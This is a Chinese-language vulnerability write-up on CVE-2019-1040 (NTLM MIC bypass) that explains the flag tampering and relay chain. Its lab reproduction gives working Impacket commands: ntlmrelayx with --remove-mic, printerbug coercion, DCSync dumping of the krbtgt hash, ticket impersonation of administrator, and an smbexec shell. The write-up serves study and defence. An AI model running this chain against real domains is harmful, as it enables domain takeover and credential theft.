# CVE-2019-1040 NTLM MIC 绕过漏洞

## 漏洞背景和描述

2019 年 6 月 11 日，微软发布 6 月份安全补丁更新。在该安全补丁更新中，对 CVE-2019-1040 漏洞进行了修复。该漏洞存在于 Windows 大部分版本中，当中间人攻击者能够成功绕过 NTLM MIC 消息完整性校验保护时，Windows 存在篡改漏洞。成功利用此漏洞的攻击者可以获得降级 NTLM 安全功能的能力。要利用此漏洞，**攻击者需要篡改 NTLM 交换，然后攻击者可以修改 NTLM 数据包的标志，而不会使签名无效**。结合其他漏洞和机制，在某些场景下攻击者可以在仅有一个普通域账号的情况下接管全域！

## 漏洞原理

这个漏洞最核心的地方在于安全研究员能***绕过 NTLM MIC 消息完整性校验***。那么安全研究员是如何绕过 NTLM MIC 消息完整性校验的呢？

由于 Microsoft Windows 服务器允许无 MIC 消息完整性校验的 NTLM Authenticate 消息，因此该漏洞绕过 MIC 消息完整性校验的思路是***取消数据包中的 MIC 标志以此来取消 MIC 校验***，取消 MIC 校验操作如下：

- 从` NTLM Authenticate` 消息中删除 MIC 字段和 Version 字段，如图所示：
- 将 `NEGOTIATE_VERSION` 标志位设置为 Not set，如图所示：





## 漏洞完整利用链

绕过 NTLM 的 MIC 消息完整性校验只是第一步，成功绕过 NTLM 的 MIC消息完整性校验之后我们能做什么呢？

这里漏洞完整利用攻击链结合 NTLM Relay 进行利用。完整攻击链如下：

1）使用域内任意有效帐户，通过 SMB 连接到目标机器，使用** Print Spooler Bug漏洞或 PetitPotam 漏洞**强制触发目标机器向指定的主机进行 NTLM 认证。

2）中继服务器收到目标机器的 NTLM 认证流量后，通过**删除相应字段绕过 NTLM的 MIC 完整性校验**并通过**修改 NTLM 数据包的标志位**使得其从 SMB 协议中继到LDAP 协议不需要签名。

3）使用中继的 LDAP 流量，**通过 LDAP 协议远程连接域控**，执行高权限操作，赋予指定的帐户高权限。

4）使用提升了权限的帐户进行后利用，接管全域。

### 1.触发目标 NTLM 请求

首先，攻击者需要目标发起 NTLM 请求才能进行 NTLM Relay 利用，这里可以利用打印机漏洞 Print Spoole Bug 或者微软加密文件系统远程协议(MS-EFSRPC)漏洞 PetitPotam 来强制触发目标主机向指定的主机进行 NTLM 认证。

### 2.LDAP 签名绕过

由于通过 Print Spooler Bug 和 PetitPotam 触发的 NTLM 认证都是基于SMB 协议的。因此安全研究员需要将 SMB 协议的身份验证流量通过 LDAP 协议中继到 DC 域控。但是由于 NTLM 协议的工作方式，无法直接将 SMB 协议流量中继到 LDAP 协议。默认情况下，客户端和域控或 Exchange 服务器进行 SMB 通信时，是强制要求签名的。其 NTLM 身份验证流量的如下标志均为 Set：

- Negotiate Key Exchange
- Negotiate Always Sign
- Negotiate Sign

如图所示，通过 WireShark 抓包可以看到，默认情况下，SMB 协议的NTLM 身份验证流量的如下标志位均为 Set。



此时将 SMB 流量中继到 LDAP 时，由于 Negotiate Sign 和 Negotiate AlwaysSign 标志为 Set，该标志会触发 LDAP 签名。而安全研究员又无法构造签名，因此会被 LDAP 协议忽略，导致攻击失败。前面我们提到了 CVE-2019-1040 最核心的地方就在于安全研究员能绕过 NTLM 的 MIC 消息完整性校验，导致安全研究员可以任意修改 NTLM 认证的数据包。因此，安全研究员在**绕过 MIC 消息完整性校验之后，可以修改流量的标志位以协商不开启 LDAP 签名校验。**具体措施如下，将以下标志位设置为 Not set：

- Negotiate Key Exchange
- Negotiate Always Sign
- Negotiate Sign

如图所示，可以看到安全研究员已经伪造这几个字段为 Not set 了。



### 3.攻击目标的选择

攻击目标的选择可以是域内的任意机器。这里我以域控和 Exchange 服务器为例，原因在于默认情况下，**域控和 Exchange 服务器在域内具有高权限**，对其进行攻击可以直接接管全域！

• **攻击 Exchange 服务器**：使用任何有效域用户，利用 Print Spooler Bug 或PetitPotam 强制触发目标 Exchange 服务器向攻击者主机进行 NTLM 认证。攻击者机器接收到目标 Exchange 服务器的认证流量后，通过修改NTLM 认证数据包绕过 NTLM 的 MIC 消息完整性校验和 LDAP 签名，将其认证流量通过 LDAP 协议中继到 DC 域控。使用中继的 LDAP 身份验证，**为攻击者指定的帐户授予 Dcsync 权限**，然后使用指定的帐户**利用 DCSync权限转储活动目录中所有密码哈希值**！

•** 攻击域控**：使用任何有效域用户，在域内创建一个可控的机器帐户。然后使用 Print Spooler Bug 或 PetitPotam 强制触发目标域控向攻击者主机进行NTLM 认证。攻击者机器接收到目标域控的认证流量后，通过修改 NTLM认证数据包绕过 NTLM 的消息完整性校验和 LDAP 签名，将其认证流量通过 LDAP 协议中继到另一个 DC 域控。使用中继的 LDAP 身份验证，**为攻击者指定的可控的机器帐户赋予基于资源的约束性委派权限**。然后**利用该机器帐户申请访问目标域控的服务票据**，即可接管域控！

## 漏洞影响版本

- Windows 7 sp1 至 Windows 10 1903
- Windows Server 2008 至 Windows Server 2019

## 漏洞复现

以下漏洞复现演示攻击 Exchange 服务器和域控制器。

### 攻击 Exchange 服务器

实验环境如下：

- 域控：10.211.55.4
- Exchange 服务器：10.211.55.5，主机名为 MAIL
- 安全研究员：10.211.55.2
- 普通域用户：xie\hack P@ss1234

整个利用链如图所示：



首先在安全研究员机器 10.211.55.2 执行如下命令进行监听：

```
python3 ntlmrelayx.py --remove-mic --escalate-user hack -t ldap://10.211.55.4 -smb2support --no-dump -debug
```

参数含义如下：

-  --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
-  –escalate-user 参数用于赋予指定用户 Dcsync 权限
-  -t 参数将认证凭据中继到指定 ldap
-  -smb2support 参数用于支持 SMB2 协议
-  --no-dump 参数表示获得 Dcsync 权限后不 dump 域内哈希
-  -debug 参数用于显示日志信息

如图所示，安全研究员运行命令进行监听：



接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接Exchange 服务器，触发 Exchange 服务器的 Print Spooler Bug，该 bug 会强制触发目标 Exchange 服务器 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。

```
python3 printerbug.py xie/hack:P@ss1234@10.211.55.5 10.211.55.2
```

如图所示，安全研究员使用打印机漏洞强制触发目标 Exchange 服务器10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。



然后安全研究员就可以收到目标 Exchange 服务器发过来的 NTLM 认证流量了，再**将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后，通过修改LDAP 协商数据包中的相应标志位来使得协商不需要签名**。再**通过 LDAP 协议中继给域控，LDAP 中执行的高权限操作是赋予指定 hack 用户 DCSync 权限**。

如图所示，可以看到该脚本首先会遍历中继的机器用户的权限，发现目标Exchange 服务器的机器账号在域内拥有创建用户和修改域 ACL 的权限。因此该脚本会选择修改域的 ACL 这种方式来提权，因为它相比于创建高权限用户更为隐蔽。该脚本通过修改指定 hack 用户的 ACL，为其赋予 DCSync 权限。



修改完 hack 用户的 ACL 后，此时域普通用户 hack 已经被赋予了 Dcsync 权限，可以直接导出域内所有用户的哈希。使用 secretsdump.py 脚本执行如下命令导出指定域用户 krbtgt 的哈希，即可接管全域！

```
python3 secretsdump.py xie.com/hack:P@ss1234@10.211.55.4 -just-dc-user krbtgt
```

如图所示，导出 krbtgt 用户哈希。



### 攻击域控制器

攻击域控制器**需要目标域内至少存在两台域控**：<u>一台域控用于触发 Print Spooler Bug 或 PetitPotam，另一台域控用于中继 LDAP 流量执行高权限操作(同一机器的流量中继回去的话会失败)</u>。

这里攻击域控有两种情况

- 目标域**支持 ldaps**：这样可以**直接利用 ntlmrelayx.py 脚本**在中继时创建机器用户并赋予委派权限(远程添加用户，需要 ldaps)。
- 目标域**不支持 ldaps**：我们可以首先自己**创建一个机器用户**，然后赋予委派权限。以下实验基于这种情况。

实验环境如下：

- 域控 1：10.211.55.4，主机名为 AD01 
- 域控 2：10.211.55.5，主机名为 AD02
- 攻击机：10.211.55.2
- 普通域用户：xie\hack P@ss1234

整个利用链如图所示：



安全研究员利用普通的域账号 xie\hack 在域内主机上使用 PowerShell 脚本执行如下命令创建一个机器账号 machine$ ，密码为 root。

```
Import-Module .\New-MachineAccount.ps1
New-MachineAccount -MachineAccount machine -Password root
```

如图所示，可以看到创建机器用户 machine$ 成功。



然后在安全研究员机器 10.211.55.2 上执行如下命令进行监听

```
#目标域不支持 ldaps 的话，可以使用如下命令，指定刚刚创建的机器账号 machine$。
python3 ntlmrelayx.py -t ldap://10.211.55.4 -smb2support --remove-mic --delegate-access --escalate-user machine\$

#目标域支持 ldaps 的话，可以使用如下命令，会自动创建机器账号。
python3 ntlmrelayx.py -t ldaps://10.211.55.4 -smb2support --remove-mic --delegate-access
```

参数含义如下：

- -t 参数将认证凭据中继到指定 ldap
- -smb2support 参数用于支持 SMB2 协议
- --remove-mic 参数用于绕过 NTLM 的 MIC 消息完整性校验
- --delegate-access 参数用于指定委派
- –escalate-user 参数指定需要赋予委派权限的用户

如图所示，安全研究员运行命令进行监听：



接着安全研究员使用 printerbug.py 脚本执行如下命令，使用 xie\hack 用户连接域控制器 AD02，触发域控制器 AD02 的 Print Spooler Bug，该 bug 会强制触发目标域控制器 AD02 10.211.55.5 向指定的安全研究员机器 10.211.55.2 机器进行NTLM 认证。

```
python3 printerbug.py xie.com/hack:P@ss1234@10.211.55.5 10.211.55.2
```

如图所示，安全研究员使用打印机漏洞强制触发目标域控制器 AD02 10.211.55.5向指定的安全研究员机器 10.211.55.2 机器进行 NTLM 认证。



然后安全研究员就可以收到目标域控 AD02 服务器发过来的 NTLM 认证流量了，再将此 NTLM 认证流量绕过 NTLM 的 MIC 消息完整性校验后通过修改 LDAP 协商数据包中的相应标志位来使得协商不需要签名。再通过 LDAP 协议中继给域控AD01，LDAP 中执行的高权限操作是赋予指定机器用户 machine$对域控制器AD02 的基于资源的约束性委派。

如图所示，可以看到此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了。



此时机器用户 machine$已经拥有对域控制器 AD02 基于资源的约束性委派了，可以执行如下命令进行后利用：

```
#以 administrator 的身份申请访问 ad02 机器的 cifs 服务票据
python3 getST.py -spn cifs/ad02.xie.com xie/machine\$:root -dc-ip 10.211.55.4 -impersonate administrator
#导入申请的服务票据
export KRB5CCNAME=administrator.ccache
#导出域内指定 krbtgt 用户的哈希
python3 secretsdump.py -k -no-pass AD02.xie.com -just-dc-user krbtgt
#远程连接 ad02 机器
python3 smbexec.py -no-pass -k AD02.xie.com -codec gbk
```

如图所示，利用完成后，即可导出域内任意用户哈希，也可以直接远程连接域控制器 AD02。



## 漏洞抓包分析

现在我们以攻击 Exchange 服务器为例，利用 WireShark 抓包分析整个漏洞利用过程。如图所示，是整个利用过程的分析图：

